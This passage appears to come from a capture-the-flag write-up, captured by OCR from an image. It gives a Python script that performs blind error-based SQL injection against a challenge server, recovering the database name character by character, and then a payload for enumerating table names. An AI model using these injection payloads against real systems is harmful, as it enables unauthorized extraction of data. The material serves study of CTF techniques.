 ```python
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
        }

def get_last_ok():
    user_res = requests.post('http://chal.firebird.sh:35020/api/users', cookies=cookies, headers=headers, data=data_for_users)
		user_res = user_res.json()
    current_time = user_res['tables'][0][0]['lastOk']
    return current_time

# Usually user created databased are all lower case.
character_list = '{_$@.-/}abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
sql_for_users = '{"query":"\'\' or id = 6969 #"}'

# If this reaches the length of our character_list, that either means we are done or
# the code is messed up :(
terminate_counter = 0 
letter_position = 1
last_ok = get_last_ok()
database_name = ""

while (terminate_counter != len(character_list)):
	terminate_counter = 0
	for char in character_list:
		char_num = ord(char)
		sql_for_flag = '{"ok":"SELECT CASE WHEN ascii((substring(DATABASE(), ' + str(letter_position) + ', 1))) = ' + str(char_num) + ' THEN \'lol\' ELSE exp(1000) END"}'
		flag_response = requests.post('http://chal.firebird.sh:35020/api/ok', cookies=cookies, headers=headers , data=sql_for_flag)
		user_response = requests.post('http://chal.firebird.sh:35020/api/users', cookies=cookies, headers=headers , data=data_for_users)
		user_response = user_response.json()
		new_ok = user_response['tables'][0][0]['lastOk']
		
		if new_ok != last_ok:
			letter_position += 1
			database_name += char
			last_ok = new_ok # Update the time
			print(database_name)
			break
		else:
			terminate_counter += 1
print("Done!")
```

After a while, we would get “**firebird**”, and that is our database name.

Now, if we want to find the table name, we can reuse our payload and make some modifications:

```sql
SELECT CASE WHEN EXISTS(SELECT table_name, table_schema FROM INFORMATION_SCHEMA.TABLES WHERE table_name LIKE \'' + database_name + char + '%\' AND table_schema = (\'firebird\')) THEN \'lol\' ELSE exp(1000) END
```
